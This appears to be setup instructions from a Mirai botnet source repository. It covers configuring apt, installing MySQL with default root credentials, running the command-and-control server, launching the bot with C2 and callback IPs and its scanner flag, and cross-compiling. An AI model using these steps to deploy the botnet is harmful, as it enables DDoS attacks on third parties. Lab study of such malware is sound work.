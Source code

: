 # Setup Instructions (for x86/x64 bot)

### For NCL
We'll need to update the `sources.list` to get `apt-get` working (only applies to cnc). 

1. go to `/etc/apt`
2. rename `sources.list` to `sources.list.bak`
3. create a new `sources.list` and add the following lines to it
  ```
  ###### Ubuntu Main Repos
  deb http://sg.archive.ubuntu.com/ubuntu/ trusty main restricted universe multiverse 
  deb-src http://sg.archive.ubuntu.com/ubuntu/ trusty main restricted universe multiverse 

  ###### Ubuntu Update Repos
  deb http://sg.archive.ubuntu.com/ubuntu/ trusty-security main restricted universe multiverse 
  deb http://sg.archive.ubuntu.com/ubuntu/ trusty-updates main restricted universe multiverse 
  deb http://sg.archive.ubuntu.com/ubuntu/ trusty-proposed main restricted universe multiverse 
  deb http://sg.archive.ubuntu.com/ubuntu/ trusty-backports main restricted universe multiverse 
  deb-src http://sg.archive.ubuntu.com/ubuntu/ trusty-security main restricted universe multiverse 
  deb-src http://sg.archive.ubuntu.com/ubuntu/ trusty-updates main restricted universe multiverse 
  deb-src http://sg.archive.ubuntu.com/ubuntu/ trusty-proposed main restricted universe multiverse 
  deb-src http://sg.archive.ubuntu.com/ubuntu/ trusty-backports main restricted universe multiverse 
  ```
4. now `apt-get` should work

### Installation Instructions for Running cnc (assumes you have already built it)
1. install mysql: `sudo apt-get install mysql-server mysql-client`
  * make sure you set the root password as `root` during the installation
2. run [scripts/db.sql](scripts/db.sql) in the mysql shell
  ```
  <in the scripts folder>
  $ mysql -u root -p
  <enter password>
  
  source db.sql;
  \q
  ```
3. to make sure you are not kicked out of the session, add these two lines under the `[mysqld]` section in `/etc/mysql/my.cnf` (you will probably need root access)
  ```
  [mysqld]
  
  ...
  
  wait_timeout = 86400
  interactive_timeout = 86400
  ```
4. restart mysql: `sudo service mysql restart`
5. run the cnc: `sudo ./cnc`
6. in order to access the cnc, use `telnet localhost` (assumes you are telnet-ing on the cnc machine)
7. use `username: root` and `password: root` to login (as defined in [scripts/db.sql](scripts/db.sql))
8. refer to [attack-instructions.md](attack-instructions.md) for how to launch an attack

### Instructions for Running bot (assumes you have already built it)
1. run the bot: `sudo ./debug/mirai.dbg <cnc ip> <local ip> <callback ip> <enable scanner 0/1>` (assumes you have built the debug version)
  * e.g. `sudo ./debug/mirai.dbg 10.0.0.1 10.0.0.2 10.0.0.1 0`
  * you can use [mirai/demo-bot.sh](mirai/demo-bot.sh) that automatically finds the ip address of eth0 (be sure to change the hardcoded cnc and callback ip addresses)

### Installation Instructions for Building
1. install golang
  ```
  $ sudo add-apt-repository ppa:ubuntu-lxc/lxd-stable
  $ sudo apt-get update
  $ sudo apt-get install golang
  ```
2. run [scripts/cross-compile.sh](scripts/cross-compile.sh) (needs root)
3. add export paths in `~/.bashrc` (you may need to restart bash after this step)
  ```
  add the following lines:
  export PATH=$PATH:/etc/xcompile/i586/bin
  export PATH=$PATH:/etc/xcompile/armv6l/bin
  export PATH=$PATH:/usr/lib/go/bin
  export GOPATH=$HOME/Documents/go
  ```
4. install git: `sudo apt-get install git`
5. install go packages
  * `go get github.com/go-sql-driver/mysql`
  * `go get github.com/mattn/go-shellwords`
6. [Optional] If you get a "package context: unrecognized import path "context" error in Step 5:
  ```
  sudo apt-get purge golang*
  sudo rm -rf /usr/lib/go-1.6/ /usr/lib/go-1.6/src/ /usr/lib/go-1.6/src/runtime/ /usr/lib/go-1.6/src/runtime/race
  curl -O https://storage.googleapis.com/golang/go1.11.1.linux-amd64.tar.gz
  sudo tar -C /usr/local -xzf go1.11.1.linux-amd64.tar.gz
  mkdir -p ~/go; echo "export GOPATH=$HOME/go" >> ~/.bashrc
  echo "export PATH=$PATH:$HOME/go/bin:/usr/local/go/bin" >> ~/.bashrc
  source ~/.bashrc
  ```
7. build using [mirai/build.sh](mirai/build.sh)
  * e.g. `mirai/build.sh debug telnet`
  * only the debug, telnet version has been tested
  * output files will be in the `debug` folder, with `cnc` and `mirai.dbg` (the bot)
